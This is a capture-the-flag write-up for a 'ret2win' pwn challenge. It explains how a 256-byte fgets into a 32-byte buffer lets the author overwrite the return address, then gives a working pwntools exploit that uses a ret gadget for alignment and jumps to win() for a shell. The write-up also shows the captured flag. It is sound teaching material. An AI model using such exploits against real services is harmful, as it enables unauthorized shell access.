



# Easypwn — ret2win

**Category:** pwn · **Points:** 995 · `nc 10.212.172.46 2664`

A classic **ret2win**: overflow a stack buffer, overwrite the saved return
address, and redirect execution into a `win()` function that spawns a shell.



## Recon

```bash
$ file easypwn
easypwn: ELF 64-bit LSB executable, x86-64, dynamically linked, not stripped
```

`checksec` and the provided `Dockerfile` tell the whole story:

```
gcc -o easypwn main.c -no-pie -fno-stack-protector
```

| Protection | State | Consequence |
| --- | --- | --- |
| Stack canary | **off** (`-fno-stack-protector`) | overflow reaches the return address unchecked |
| PIE | **off** (`-no-pie`) | code addresses are fixed → `win()` can be hardcoded |
| NX | on | stack isn't executable, but we don't need shellcode |

## Vulnerability

`main()` reads **256 bytes** (`0x100`) into a **32-byte** (`0x20`) stack buffer
with `fgets` — a textbook overflow.



```asm
sub    rsp, 0x20              ; 32-byte stack frame
lea    rax, [rbp-0x20]        ; buffer
mov    esi, 0x100             ; read up to 256 bytes  <-- overflow
call   fgets
```

## Finding the offset

The buffer sits at `[rbp-0x20]`, so:

```
offset = 0x20 (buffer) + 8 (saved RBP) = 40 bytes
```

Confirmed empirically with a cyclic pattern — at the crash, `RIP` held
`0x6161616161616166`, and `cyclic -l` resolved it to **40**.

## The target: `win()`

```bash
$ nm easypwn | grep win
000000000040121d T win
```

`win()` is never called in normal execution. It simply runs:

```c
system("/bin/sh");
```

Because PIE is off, its address `0x40121d` is valid on every run — no leak needed.

## The gotcha: stack alignment

Jumping straight to `win()` reaches the code (prints `you win!`) but then
**segfaults inside `system()`**. This is the classic `movaps` issue — 64-bit glibc
requires a 16-byte-aligned stack before the call.

**Fix:** prepend a bare `ret` gadget. The extra `ret` shifts the stack by 8 bytes,
restoring 16-byte alignment before `win()` calls `system()`.

```bash
$ ROPgadget --binary easypwn | grep ": ret$"
0x000000000040101a : ret
```

Payload layout:

```
[ 40 bytes padding ][ ret gadget ][ win ]
```

## Exploit

```python
#!/usr/bin/env python3
from pwn import *

exe = './easypwn'
context.binary = exe

offset = 40          # 32-byte buffer + 8 (saved RBP)
ret    = 0x40101a    # ret gadget — realigns the stack for system()
win    = 0x40121d    # win() — calls system("/bin/sh")

payload  = b'A' * offset
payload += p64(ret)
payload += p64(win)

p = remote('10.212.172.46', 2664)
p.sendline(payload)
p.interactive()
```

## Flag

```
you win! you should now get shell.
$ cat flag.txt
CTFkom{345y_pwn_345y_l1f3}
```



## Takeaways — ret2win checklist

1. `checksec` → look for **No canary** + **No PIE**.
2. Trace the calls to find the function that actually **reads input** (not always `main`).
3. Offset = buffer distance from the disassembly (`[rbp-X]`) **+ 8** for the saved RBP — confirm with `cyclic`.
4. Grab the target address with `nm`.
5. Payload = `padding + p64(target)`.
6. Segfault *after* reaching the target? It's `movaps` alignment — add a `ret` gadget.
